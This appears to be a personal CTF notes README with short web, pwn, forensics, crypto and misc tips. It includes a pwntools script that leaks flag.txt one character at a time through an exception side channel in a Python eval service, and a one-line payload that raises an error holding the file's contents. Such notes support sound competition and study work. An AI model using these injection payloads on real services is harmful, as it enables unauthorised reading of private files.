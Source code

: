 # CTF-Notes
## Web
* PHP type juggling
`md5( 0e215962017 ) ---> 0e291242476940776845150308577824`
 
## Pwn
##### Timing Attack poc 
```
from pwn import remote
import string
host = ""
port = 
s = remote(host, port)
flag = ""
index = 0
changed = True
s.recvuntil('!\n')
while changed:
    changed = False
    for c in '_{}' + string.printable:
    	print("testing {}".format(flag + c))
    	command = '''1/0 if open('flag.txt','r').read({})[{}] == ''{}' else 0\n'''.format(index + 1, index, c)
    	print(command)
    	s.send(command)
    	answer = s.recvuntil("!\n")
    	if b'Traceback' in answer:
    		flag += c
    		changed = True
    		index += 1
    		break
```

## Forensics
* .docx file ? try open it as zip archive  


## Reverse Engineering
## Crypto
#### solve RSA


```
from Crypto.Util.number import inverse,long_to_bytes

p = 
q = 
e =
ct = 

n = p * q
phi = (p - 1) * (q - 1)
d = inverse(e,phi)
plain = pow(ct,d,n)
print(long_to_bytes(plain))
```
[cool RSA write-ups](https://github.com/W3rni0/RACTF_2020) 
## Misc/various 
#### Raise an error with the flag (python)
Ex: `raise NameError(open('flag.txt','r').read(50))`

#### No output on the shell?
try redirection ex: `ls 1>&0`
